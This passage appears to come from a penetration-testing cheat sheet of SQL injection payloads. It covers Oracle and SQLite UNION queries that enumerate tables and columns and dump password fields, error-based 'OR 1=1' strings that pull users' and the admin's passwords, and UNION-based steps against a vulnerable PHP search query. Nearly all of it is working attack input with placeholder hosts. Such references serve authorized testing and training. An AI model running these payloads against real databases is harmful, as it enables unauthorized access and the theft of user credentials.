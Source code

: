 ##### Get Column Name

```c
' union select null,column_name,null from all_tab_columns where table_name='<TABLE>'--
```

##### Dump Data

```c
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--
```

#### SQLite

##### Extracting Table Names

```c
http://<RHOST>/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```

##### Extracting User Table

```c
http://<RHOST>/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users--
```

### Error-based SQL Injection (SQLi)

```c
<USERNAME>' OR 1=1 -- //
```

Results in:

```c
SELECT * FROM users WHERE user_name= '<USERNAME>' OR 1=1 --
```

```c
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

### UNION-based SQL Injection (SQLi)

#### Manual Injection Steps

```c
$query = "SELECT * FROM customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

```c
' ORDER BY 1-- //
```

```c
%' UNION SELECT database(), user(), @@version, null, null -- //
```
